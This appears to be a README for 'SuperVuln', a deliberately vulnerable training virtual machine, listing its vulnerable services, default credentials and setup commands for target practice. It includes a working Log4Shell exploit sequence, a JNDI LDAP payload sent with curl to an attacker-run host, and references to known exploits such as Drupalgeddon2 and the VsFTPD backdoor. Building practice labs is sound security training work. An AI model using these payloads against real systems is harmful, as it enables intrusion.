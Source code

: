 <img width="747" alt="supervuln3" src="https://user-images.githubusercontent.com/4623055/198848934-8e05569f-8549-4a58-afbb-5c1b3025f0de.png">

By @rodsoto
www.rodsoto.net 
# SuperVuln v1
#super:above, beyond 
#vulnus: wound 
# Super vulnerable machine
#exploitation, target practice, makiwara, tamashii wari, training virtual machine.  
#this virtual machine is meant to be in HOST ONLY setting and ON PREM USE. DO NOT operate in production or expose to the internet.

All Vulns  --- (DO NOT UPDATE THIS MACHINE YOU WILL BREAK IT)


1) Phpmyadmin 4.8.0 RCE/LFI --> localhost/phpmyadmin480 (remember for web servers you need apache2 and mysql running read note below to bring them up first) root:toor 
2) Rlogin
3) SAMBA Anonymous - ETERNAL RED CVE-2017-7494 (`sudo /usr/local/samba/sbin/smbd -D, sudo /usr/local/samba/sbin/nmbd -D`)
4) VsFTPD 2.3.4 RCE | `sudo /usr/local/sbin/vsftpd`  - port 21
5) SSH - port 22
6) MySQL - port 3306
7) Chargen - port 19
8) QOTD - port 17
9) Daytime - port 13
10) Telnet - port 23
11) Tomcat 8.5.2 - port 8080 `/home/research/Desktop/apache-tomcat-8.5.2 | sudo bash /bin/startup.sh`
12) Struts 2.0.14 - port 8080 
13) MongoDB - port 27017 | `sudo ./mongod --dbpath data/db/ | from /home/research/Desktop/supervuln-files/`
14) Jenkins 2.31 --> research/Desktop/supervuln/files/ --> `java -jar jenkins.war ` (admin,admin --localhost 8080)
15) Redis - cd `/home/reserach/Desktop/redis-4.0.2/ ./src/redis-server ../redis.conf`
16) Patient Scheduler -- localhost/scheduler admin admin123 (XSS,SQLi, RFI)
17) Drupal 8.5.11 -- localhost/drupal8511 root toor RCE (https://exploit-db.com/exploits/46510)
18) Log4J (1) - /home/research/Desktop/log4j-shell-poc `sudo docker build -t log4j-shell-poc . then sudo docker run --network host log4j-shell-poc`
19) Log4J (2) 
FROM /home/research/Desktop/log4shell-vulnerable-app/ `docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
then
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`
then. will execute 'touch /tmp/pwned'
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'` (you can play with payloads) https://github.com/christophetd/log4shell-vulnerable-app
20) echo - port 7
21) time - port 37
22) discard - port 9
23) QDPM 9.1 https://localhost/qdpm/index.php user:admin@localhost password:toor (remember for web servers you need apache2 and mysql running read note below to bring them up first)
24) RiteCMS http://localhost/ritecms/admin.php user:admin password:admin (this is SQLite) RFI
25) Drupal 8.5 -- localhost/drupal85 root toor - DRUPALGEDDON2
26) localhost/sqli.php -- SQL Injection 
27) Wembin 1996 -- RCE localhost:10000

Note: from /opt/lampp run -> `sudo ./manager-linux-x64.run` #to get Xammp GUI

PLUS - API Vulnerable frameworks (See readme in Desktop) 

crAPI.  
PIXI.   
OWASP Juice Shop.   
Damn Vulnerable GraphQL.   

Bonus stuff to practice (Stego, WAV, Pcaps, BoF, Win7 SAM hashes) 

Download here. 
https://drive.google.com/file/d/1_AbR5R96smaWpHdlqUJNT1Q4obtwXZgp/view?usp=share_link
root - toor   
research - toor    

Import .OVA use Vmware Player or Fusion or Virtual box   
See links below for guidance   
https://docs.vmware.com/en/VMware-Workstation-Pro/16.0/com.vmware.ws.using.doc/GUID-DDCBE9C0-0EC9-4D09-8042-18436DA62F7A.html   
https://docs.oracle.com/cd/E26217_01/E26796/html/qs-import-vm.html. 


